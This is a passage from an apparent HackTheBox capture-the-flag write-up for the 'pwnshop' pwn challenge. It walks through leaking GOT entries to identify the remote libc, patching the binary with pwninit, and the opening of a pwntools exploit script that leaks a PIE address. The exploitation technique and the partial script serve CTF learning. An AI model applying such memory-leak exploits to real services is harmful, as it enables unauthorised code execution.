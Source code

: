 > RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/adc24faa-eca4-4f24-b5e3-bbd59f79152d)


7. Since we don't want to work twice (after succeed local, then identify the remote libc and try to get RCE remotely again), let's just send the script remotely and use the last 3 hex to find the remote libc in libc.blukat.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8408bbfe-2f48-4b88-baee-9a9df2d08372)


8. Hmm, let's leak another GOT function so we can get 1 result only.

> USING LEAKED READ

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d01de361-9ebf-40dc-9b82-654a0764cb54)


9. Nice now let's run pwninit to patch the binary.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/45e08bbc-2a87-4c43-990d-1057763a8ccf)


10. Let's calculate the libc base.

> SCRIPT

```py
from pwn import *
import os
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript="""
init-pwndbg
continue
""".format(**locals())

# exe = './pwnshop'
exe = './pwnshop_patched'
elf = context.binary = ELF(exe, checksec=True)
# context.log_level = 'DEBUG'
context.log_level = 'INFO'

library = './libc6_2.23-0ubuntu11.2_amd64.so'
libc = context.binary = ELF(library, checksec=True)

sh = start()
pause()
sh.sendlineafter(b'>', b'2')
sh.sendlineafter(b'?', b'a')

## LEAKING PIE
sh.sendlineafter(b'?', b'A' * 7) 
sh.recvline()
get = unpack(sh.recv(6) + b'\x00' * 2)
log.success('LEAKED PIE --> %#0x', get)
```